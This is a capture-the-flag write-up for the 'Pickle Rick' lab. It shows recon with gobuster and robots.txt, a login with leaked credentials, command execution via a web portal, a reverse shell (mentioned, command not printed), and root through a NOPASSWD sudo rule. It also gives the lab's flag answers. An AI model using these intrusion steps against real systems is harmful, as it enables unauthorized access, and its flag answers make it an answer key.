 # Pickle Rick writeup

First of all, checking the source code of the front page reveals a username "R1ckRul3s" in the comments

![Username "R1ckRul3s" in commets](username-comment.png)

Navigating to `/robots.txt`, we get the string "Wubbalubbadubdub"

![robots.txt](robots.png)

Running `gobuster` gives a few interesting targets

```sh
$ gobuster dir -u "http://box.ip/" -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x html,php -r -o root

/index.html           (Status: 200) [Size: 1062]
/assets               (Status: 200) [Size: 2185]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 200) [Size: 882]
```

Note: `/portal.php` just redirects to `/login.php for now`.

At `/login.php`, I tried the known username "R1ckRul3s" with the found string "Wubbalubbadubdub", which gave us access and redirected to `/portal.php`.

The portal page seems to runs system commands on a Linux machine...

![portal page](portal.png)

... so I just ran a simple bash reverse shell on got access to the box!

Right away, there's a couple of interesting files

```sh
www-data@ip-10-10-100-30:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt
www-data@ip-10-10-100-30:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
www-data@ip-10-10-100-30:/var/www/html$ cat clue.txt
Look around the file system for the other ingredient.
```

We've got the first ingredient for question 1: `mr. meeseek hair`

Checking with `sudo -l` *without a password*, we got some very interesting output

```sh
www-data@ip-10-10-100-30:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-100-30.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-100-30.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Our user, `www-data`, can run *ALL* commands without a password! With that, the next obvious thing to do is to get a root shell with `sudo bash`.

Looking at `/home`, we can see 2 users: `rick` and `ubuntu`, and in rick's directory, we have our 2nd ingredient: "1 jerry tear"

```
root@ip-10-10-100-30:~# cd /home
root@ip-10-10-100-30:/home# ls *
rick:
second ingredients

ubuntu:
root@ip-10-10-100-30:/home# cat rick/second\ ingredients
1 jerry tear
```

Going to `/root`, we find the 3rd ingredient, the answer to question 3: "fleeb juice"

```
www-data@ip-10-10-100-30:/var/www/html$ sudo bash
root@ip-10-10-100-30:/var/www/html/assets# cd
root@ip-10-10-100-30:~# ls
3rd.txt  snap
root@ip-10-10-100-30:~# cat 3rd.txt
3rd ingredients: fleeb juice
```
